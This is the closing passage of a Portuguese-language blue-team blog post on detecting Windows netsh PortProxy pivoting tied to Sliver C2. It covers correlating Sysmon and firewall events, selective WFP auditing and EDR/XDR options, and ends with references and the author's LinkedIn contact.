Em vez de habilitar WFP audit globalmente, utilize **detecção baseada em comportamento** combinando múltiplas fontes de log, inclusão de **Sysmon Event ID 13** - Modificação de Registro, que não foi tratado aqui, mas identifica alteração no registro de `PortProxy`.

Correlacionar IPs internos que geram tráfego externo suspeito com processos em pastas anômalas detectados pelo Sysmon.

**Lógica da detecção:**

1. **Windows Event ID 13**: Detecta configuração do portproxy
2. **Windows Event ID 1**: Detecta processo suspeito executando
3. **Firewall Logs**: Detecta tráfego saindo do host pivot para IP externo
4. **Correlação temporal**: Eventos ocorrem em janela de 5 minutos
5. **Correlação por host**: Mesmo hostname/IP em Windows e Firewall

### Estratégia 2: WFP Audit seletivo (apenas hosts críticos)

Se você **REALMENTE precisa** de logs WFP, habilite **APENAS** em:

**Hosts elegíveis:**
- Servidores DMZ
- Jump servers / Bastion hosts
- Servidores com acesso externo controlado
- Máquinas de administradores privilegiados

Eu consultei aqui quanto de log total gerou desde a habilitação do log e deu mais de 18 milhões de eventos de apena um único host! 🤣

É muita loucura!!!

Eu filtrei somente por logs da pasta onde eu executei o arquivo e gerou 887 eventos. Bem... Julgando que pastas incomuns como tratados mais acima, talvez seja válido enviar ao SIEM e configurar um `filter` no coletor para enviar somente logs suficientemente necessários.

**Redução esperada de volume:** ~95% (filtrando apenas processos em pastas suspeitas ou portas específicas)

### Estratégia 3: Uso de EDR/XDR Comercial

Soluções EDR/XDR modernas conseguem capturar atividade em nível de kernel **sem** gerar volume massivo de logs porque:

1. Processam eventos localmente no agente
2. Aplicam ML/AI para filtrar ruído
3. Enviam apenas eventos suspeitos para console central
4. Fazem análise comportamental em tempo real

**Exemplos:**
- Microsoft Defender for Endpoint
- CrowdStrike Falcon
- SentinelOne
- Carbon Black
- Cortex XDR

---

# 🔐 Happy Hunting, Blue Team! 🛡️

--- 

# Referências

- [BishopFox — Sliver C2](https://github.com/BishopFox/sliver)
- [MITRE ATT&CK&reg;](https://attack.mitre.org/)
- [Network shell (netsh) | Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/netsh)
- [Sysmon v15.15 | Microsoft Learn](https://learn.microsoft.com/pt-br/sysinternals/downloads/sysmon)
- [Information about the TCP Chimney Offload, Receive Side Scaling, and Network Direct Memory Access features in Windows Server 2008 | Microsoft Learn](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/information-about-tcp-chimney-offload-rss-netdma-feature)
- [Sliver C2 Leveraged by Many Threat Actors | Cybereason](https://www.cybereason.com/blog/sliver-c2-leveraged-by-many-threat-actors)
- [Sliver: Intro to An Awesome C2 Framework | Medium](https://barrymalone.medium.com/sliver-an-awesome-c2-framework-c0257f2f52e4n)
- [What is Command and Control (C&C or C2) in Cybersecurity? | Zenarmor](https://www.zenarmor.com/docs/network-security-tutorials/what-is-command-and-control-c2)
- [How to Detect C2 Infrastructure: Best Practices for Command and Control Traffic Identification | Hunt.io](https://hunt.io/glossary/detect-c2)
- [Disable TCP offloading and RSS settings | AWS Prescriptive Guidance](https://docs.aws.amazon.com/prescriptive-guidance/latest/sql-server-ec2-best-practices/tcp-rss.html)
- [How to Disable Offloading Features to Improve Connectivity | FLIR Latitude](https://flir.custhelp.com/app/answers/detail/a_id/5200/~/flir-latitude---how-to-disable-offloading-features-to-improve-connectivity)
- [Don't use commands, use code: the tale of Netsh & PortProxy | Adepts of 0xCC](https://adepts.of0x.cc/netsh-portproxy-code/)
- [Configuring Port Forwarding in Windows | Windows OS Hub](https://woshub.com/port-forwarding-in-windows/)
- [Port-Forwarding with Windows for the Win | SANS](https://isc.sans.edu/diary/27934)

---


Por favor, entre em contato comigo pelo meu <a href="https://www.linkedin.com/in/sandsoncosta">LinkedIn</a>.<br>Vou ficar muito contente em receber um feedback seu.

